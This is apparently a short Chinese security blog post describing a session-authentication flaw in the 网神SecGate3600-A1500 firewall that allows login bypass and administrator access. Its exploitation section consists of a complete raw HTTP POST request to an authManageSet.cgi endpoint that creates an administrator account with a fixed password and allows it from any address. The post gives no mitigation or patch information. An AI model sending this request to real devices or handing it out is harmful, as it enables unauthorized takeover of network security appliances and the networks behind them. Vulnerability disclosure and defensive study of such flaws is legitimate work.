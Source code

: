 #  1day ｜ 网神SecGate3600-A1500会话鉴权逻辑漏洞   
原创 土拨鼠  土拨鼠的安全屋   2024-11-09 20:57  
  
# 漏洞描述  
  
网神SecGate3600-A1500会话鉴权逻辑存在问题导致，登录绕过获取管理员权限。  
# 漏洞利用  
```
POST /cgi-bin/authUser/authManageSet.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 93
Connection: close
 
type=saveAdmin&id=2&userName=audit&pwd=audit@1234&net=0.0.0.0&mask=0.0.0.0&port=ANY&allow=Y

```  
  
  
  
